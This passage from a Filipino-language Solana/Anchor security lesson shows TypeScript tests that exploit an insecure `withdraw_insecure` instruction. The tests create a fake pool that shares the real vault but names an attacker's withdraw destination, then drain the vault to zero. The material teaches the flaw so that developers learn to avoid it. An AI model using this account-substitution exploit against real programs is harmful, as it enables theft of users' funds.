 ### 2. Subukan ang `withdraw_insecure` instruction

Kasama sa test file ang code para i-invoke ang `initialize_pool` na pagtuturo at pagkatapos ay mag-mint ng 100 token sa `vault` token account. Kasama rin dito ang pagsubok para i-invoke ang `withdraw_insecure` gamit ang nilalayong `withdraw_destination`. Ipinapakita nito na ang mga instruction ay maaaring gamitin ayon sa inaasahan.

Pagkatapos nito, may dalawa pang pagsubok upang ipakita kung paano madaling pagsamantalahan ang mga instruction.

ang unang test ay nag i-invoke ng `initialize_pool` instruction na gumawa ng "fake" `pool` account gamit ang parehong token account ng `vault`, ngunit ibang `withdraw_destination`.

Ang pangalawang pagsubok ay aalis mula sa pool na ito, na epektibong nagnakaw ng mga pondo mula sa vault.

```tsx
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
    await program.methods
      .initializePool(authInsecureBump)
      .accounts({
        pool: poolInsecureFake.publicKey,
        mint: mint,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        payer: walletFake.publicKey,
      })
      .signers([walletFake, poolInsecureFake])
      .rpc()

    await new Promise((x) => setTimeout(x, 1000))

    await spl.mintTo(
      connection,
      wallet.payer,
      mint,
      vaultInsecure.address,
      wallet.payer,
      100
    )

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(100)
})

it("Insecure withdraw allows stealing from vault", async () => {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: poolInsecureFake.publicKey,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        authority: authInsecure,
        signer: walletFake.publicKey,
      })
      .signers([walletFake])
      .rpc()

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(0)
})
```
